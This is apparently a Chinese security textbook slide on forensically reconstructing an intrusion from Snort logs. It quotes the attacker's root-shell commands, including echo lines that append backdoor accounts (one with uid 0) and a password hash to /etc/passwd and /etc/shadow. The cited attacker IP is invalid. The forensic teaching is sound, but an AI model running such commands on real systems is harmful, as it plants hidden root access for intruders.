

6.6.3 现场重建
1．入侵过程：通常，snort能显示所有IP的相关数据，利用这一性能可以分析攻击者的入侵行为。入侵信息可以从snort日志中获得，它是以tcpdump二进制格式存储的。于是可以查询snort日志，并检查攻击发起时发出的包。信息查询不能仅限于主机63.336.81.13，因为攻击者可能利用其他系统来攻击。事实上，此例中攻击者也的确使用了至少3种不同的系统进行入侵。入侵的目的是要获得远程系统的root shell。一旦黑客获得root shell，他们就能用root账号运行任何命令。通常，一个账号是保存在/etc/passwd和/etc/shadow文件中的。“黑帽”获得root shell后，就作为root用户运行了以下命令：

cd; uname –a; pwd; id；
Linux apollo.uicmba.edu 2.2.5-15 #1 Mon Apr 19 22:21:09 EDT 1999 i586 unknown/uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
echo “twin::506:506::/home/twin:/bin/bash”>> /etc/passwd
echo “twin:w3nT2H0b6AjM2:::::::”>> /etc/shadow
echo “hantu::0::0/:/bin/bash”>> /etc/passwd
echo “hantu:w3nT2H0b6AjM2:::::::”>> /etc/shadow